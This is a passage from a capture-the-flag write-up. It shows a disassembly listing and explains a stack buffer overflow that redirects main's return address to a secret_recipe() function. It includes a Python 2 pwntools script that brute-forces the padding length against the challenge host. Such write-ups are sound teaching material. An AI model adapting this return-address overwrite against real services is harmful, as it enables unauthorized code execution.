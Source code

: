 ```
  4009b1: 48 89 45 f0                  	movq	%rax, -16(%rbp)
  4009b5: 48 8b 55 f0                  	movq	-16(%rbp), %rdx
  4009b9: 48 8d 85 60 ff ff ff         	leaq	-160(%rbp), %rax
  4009c0: 48 89 d1                     	movq	%rdx, %rcx
  4009c3: ba 80 00 00 00               	movl	$128, %edx
  4009c8: be 01 00 00 00               	movl	$1, %esi
  4009cd: 48 89 c7                     	movq	%rax, %rdi
  4009d0: e8 bb fc ff ff               	callq	-837 <fread@plt>
  4009d5: 48 89 45 f8                  	movq	%rax, -8(%rbp)
  4009d9: 48 8d 95 60 ff ff ff         	leaq	-160(%rbp), %rdx
  4009e0: 48 8b 45 f8                  	movq	-8(%rbp), %rax
  4009e4: 48 01 d0                     	addq	%rdx, %rax
  4009e7: c6 00 00                     	movb	$0, (%rax)
  4009ea: 48 8d 85 60 ff ff ff         	leaq	-160(%rbp), %rax
  4009f1: 48 89 c7                     	movq	%rax, %rdi
  4009f4: e8 87 fc ff ff               	callq	-889 <puts@plt>
  4009f9: 90                           	nop
  4009fa: c9                           	leave
  4009fb: c3                           	retq
  4009fc: 0f 1f 40 00                  	nopl	(%rax)
```

I noticed this function called `secret_recipe()`. Clearly this is what we want to run. To run it, all we need to do is use buffer overflow to modify the return address of main and point it to the address of the `secret_recipe()`. Although I probably could have done this more elegantly, I just put together a rough and dirty python script that adds a few bytes followed by the address of the `secret_recipe()` at `0x000000000040098b` and checked to see if the flag was printed. Here is the script I wrote:

```python
from pwn import *

i = 0

while True:
    target = remote('jh2i.com', 50021)

    payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

    payload += "AAAA" * i

    payload += p64(0x000000000040098b)

    print payload

    target.sendline(payload)
    target.interactive()

    i += 1
```
Note: this script was made for python 2. IDK why I used python 2 sry...

